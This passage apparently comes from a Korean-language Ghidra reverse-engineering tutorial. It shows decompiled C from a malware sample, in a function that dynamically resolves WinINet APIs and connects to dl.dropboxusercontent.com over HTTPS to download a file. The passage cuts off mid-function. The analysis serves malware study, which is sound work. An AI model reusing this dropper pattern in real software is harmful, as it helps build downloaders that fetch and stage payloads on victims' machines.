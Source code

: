 그다음 다운로드한 gdt 파일을 열어주면 끝!

![](ghidra_part4/Untitled%2018.png)

이제 추가가 되어 있는 모습을 확인할 수 있습니다... 후후 다른 함수 포인터들도 모두 적용하도록 하죠. 적용이 완료된 소스 코드는 다음과 같습니다.

```c
undefined4 download_ATAPIConfiguration(void)

{
  char cVar1;
  bool bVar2;
  undefined4 uVar3;
  HMODULE hModule;
  int iVar4;
  size_t temp_path_len;
  undefined4 *puVar5;
  uint uVar6;
  LPCSTR pCVar7;
  int local_64;
  undefined4 local_60;
  undefined4 lpdwBufferLength;
  uint lpBuffer;
  FARPROC InternetCloseHandle_addr;
  FARPROC WriteFile_addr;
  FARPROC InternetReadFile_addr;
  HANDLE local_48;
  FARPROC CreateFileW_addr;
  char *temp_path;
  void *local_3c;
  int local_38;
  FARPROC HttpSendRequestA_addr;
  FARPROC InternetSetOptionW;
  FARPROC InternetQueryOptionW_addr;
  int hInternet;
  FARPROC HttpOpenRequestW_addr;
  int hConnect;
  FARPROC InternetConnectW_addr;
  int local_18;
  FARPROC InternetOpenW_addr;
  HMODULE local_10;
  
  local_10 = LoadLibraryA("wininet.dll");
  InternetOpenW_addr = GetProcAddress(local_10,"InternetOpenW");
  local_18 = (*InternetOpenW_addr)(L"WINDOWS",0,0,0,0);
  if (local_18 == 0) {
    uVar3 = 0xe;
  }
  else {
    hModule = GetModuleHandleW(L"wininet.dll");
    InternetConnectW_addr = GetProcAddress(hModule,"InternetConnectW");
    hConnect = (*InternetConnectW_addr)(local_18,L"dl.dropboxusercontent.com",0x1bb,0,0,3,0,1);
    if (hConnect == 0) {
      uVar3 = 0xe;
    }
    else {
      hModule = GetModuleHandleW(L"wininet.dll");
      HttpOpenRequestW_addr = GetProcAddress(hModule,"HttpOpenRequestW");
      hInternet = (*HttpOpenRequestW_addr)
```